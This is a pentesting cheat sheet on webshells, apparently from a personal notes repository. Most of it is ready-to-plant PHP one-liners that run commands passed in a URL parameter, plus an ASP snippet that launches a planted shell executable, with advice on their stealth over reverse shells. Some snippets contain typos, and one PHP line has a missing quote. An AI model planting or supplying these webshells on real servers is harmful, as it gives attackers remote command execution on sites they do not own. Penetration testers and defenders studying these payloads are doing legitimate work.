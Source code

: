 # Webshell

A webshell is a shell that you can access through the web. This is useful for when you have firewalls that filter outgoing traffic on ports other than port 80. As long as you have a webserver, and want it to function, you can't filter our traffic on port 80 (and 443). It is also a bit more stalthy than a reverse shell on other ports since the traffic is hidden in the http traffic.

## PHP - Basic cmd-shell

This code can be injected into pages that use php.
```

# Execute one command
<?php system("whoami); ?>

# Take input from the url paramter. shell.php?cmd=whoami
<?php system($_GET['cmd']); ?>

# The same but using passthru
<?php passthru($_GET['cmd']); ?>

# For shell_exec to output the result you need to echo it
<?php echo shell_exec("whoami");?>

# Exec() does not output the result without echo, and only output the last line. So not very useful!
<?php echo exec("whoami");?>

# Instead to this if you can. It will return the output as an array, and then print it all.
<?php exec("ls -la",$array); print_r($array); ?>

# preg_replace(). This is a cool trick
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>

# Using backticks
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>

# Using backticks
<?php echo `whoami`; ?>


```

You can then call then execute the commands like this:

```
http://192.168.1.103/index.php?cmd=pwd
```

## ASP

```
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /c c:\Inetpub\shell443.exe",0,True)
%>
```

## Webshells

Wellshells have the benefit of running on port 80/443. Which makes it a bit more stealthy, it doesn't create a new connection that can be discovered. But on the other hand it creates a lot of strange logs that can be easy to detect.

You have access to different kinds of webshells on Kali here:
```
/usr/share/webshells
```

http://www.binarytides.com/web-shells-tutorial/
